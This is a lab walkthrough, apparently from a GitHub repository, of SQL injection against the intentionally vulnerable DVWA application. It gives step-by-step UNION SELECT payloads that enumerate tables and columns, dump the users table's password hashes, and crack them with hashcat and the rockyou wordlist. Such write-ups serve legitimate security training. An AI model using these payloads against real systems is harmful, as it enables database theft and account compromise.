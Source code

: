 ## DVWA - SQL Injection

Based on <https://github.com/digininja/DVWA>

With reference to <https://github.com/mrudnitsky/dvwa-guide-2019>

### Methodology:

1. Identity query vulnerability
2. Identify injection vector
3. Identify number of columns (range) using `ORDER BY`
4. Identify data display positions in the page
5. Retrieve database/version/user information
6. Enumerate tables
7. Enumerate columns
8. Retrieve data

References:
- <https://blog.csdn.net/m0_54899775/article/details/121941275>
- <https://medium.com/@hninja049/step-by-step-sql-injection-ed1bb97b3eae>

## 1. Identify query vulnerability

#### Legitimate input

Input: `1`

Output:

![image](/images/sqli-dvwa-1.png)

#### Testing for error-based SQL injection

Input: `1'`

Output: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1`

## 2. Identify injection vector (bypass authentication)

The error was `''1'''` when using `1'` as input → guessing that backend SQL query should be using single quotes on the id: `'$id'`

Test: close the enquiry with a single `'` and drop everything behind using `#`

Input: `1' #`

Output:

![image](/images/sqli-dvwa-2.png)

Injection vector found!

## 3. Identify range

Try to find the number of columns retrieved by the query to match the `UNION SELECT` injection later

(It should be quite obvious that the range is 2, since the output only have 2 items)

Input: `1' ORDER BY 3 #`

Output: `Unknown column '3' in 'order clause'`

This means there is no third column in the query, i.e. range is 2

## 4. Identify data display positions

Input: `1' UNION SELECT 1,2 #`

Output:

![image](/images/sqli-dvwa-3.png)

The UNION'd selection appends an additional entry to the output.

Looks like the output just recursively displays every row returned in the query.

(Try: using `1' OR 1=1 #` will return all usernames in the table!)

## 5. Retrieve database/version/user information

Input: `1' UNION SELECT DATABASE(),VERSION() #`

Output:

![image](/images/sqli-dvwa-4.png)

## 6. Enumerate tables

Input: `1' UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=database() #`

| Field | Description |
| --- | --- |
| `TABLE_SCHEMA` | The database which the table belongs to |
| `TABLE_NAME` | The name of the table |
| `information_schema.TABLES` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:

![image](/images/sqli-dvwa-5.png)

## 7. Enumerate columns

Input: `1' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`

| Field | Description |
| --- | --- |
| `TABLE_NAME` | The table which the column belongs to |
| `COLUMN_NAME` | The name of the column |
| `information_schema.COLUMNS` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:

![image](/images/sqli-dvwa-6.png)

We have found the column where user passwords are stored!

## 8. Retrieve data

Let's try to dump the passwords!

Input: `1' UNION SELECT user,password FROM users #`

Output:

![image](/images/sqli-dvwa-7.png)

## 9. Cracking the passwords

The passwords retrieved from the database are password hashes, we need to crack them to get the clear text

Copy the password hashes into a file on Kali:

```sh
cat << EOF >> hashes.txt
5f4dcc3b5aa765d61d8327deb882cf99
e99a18c428cb38d5f260853678922e03
8d3533d75ae2c3966d7e0d4fcc69216b
0d107d09f5bbe40cade3de5c71e9e9b7
5f4dcc3b5aa765d61d8327deb882cf99
EOF
```

Ask hashcat to guess which format is the hash

Command: `hashcat hashes.txt`

```
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

Let's try cracking it using MD5 mode against the `/usr/share/wordlists/rockyou.txt` wordlist

Command: `hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`

```
5f4dcc3b5aa765d61d8327deb882cf99:password
e99a18c428cb38d5f260853678922e03:abc123
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
8d3533d75ae2c3966d7e0d4fcc69216b:charley
```

Violà! Passwords cracked!
